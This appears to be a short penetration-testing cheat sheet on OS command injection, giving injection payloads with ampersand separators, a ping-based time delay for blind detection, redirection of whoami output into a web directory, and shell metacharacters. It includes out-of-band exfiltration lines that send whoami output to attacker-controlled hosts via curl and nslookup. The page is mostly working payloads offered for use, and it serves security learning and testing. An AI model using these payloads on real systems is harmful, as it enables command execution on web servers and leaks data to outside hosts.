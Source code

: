 # OS command injection

### <mark style="color:yellow;">Command injection</mark>

```sh
& echo qwerty &
```

Placing `&` after the injected command is generally useful because it separates the injected command from whatever follows the injection point.

### <mark style="color:yellow;">Blind OS command</mark>

**Detection**

```sh
# 10 sec. time delay
& ping -c 10 127.0.0.1 &
```

**Exploit**

1. Redirecting output. Note: you must have write permission

```sh
& whoami > /var/www/static/whoami.txt &
curl https://website.com/whoami.txt
```

2. Out-of-band techniques

```sh
& curl `whoami`.webserver-attacker.com & # HTTP traffic may be blocked
& nslookup `whoami`.kgji2ohoyw.web-attacker.com &
```

### <mark style="color:yellow;">Bypass restriction</mark>

There are so many ways: [https://book.hacktricks.wiki/linux-hardening/bypass-bash-restrictions/index.html](https://book.hacktricks.wiki/linux-hardening/bypass-bash-restrictions/index.html)

### <mark style="color:yellow;">Metacharacters</mark>

```sh
# Windows & Unix
&
&&
|
||

# Unix
;

# Unix inline execution
`command`
$(command)
```
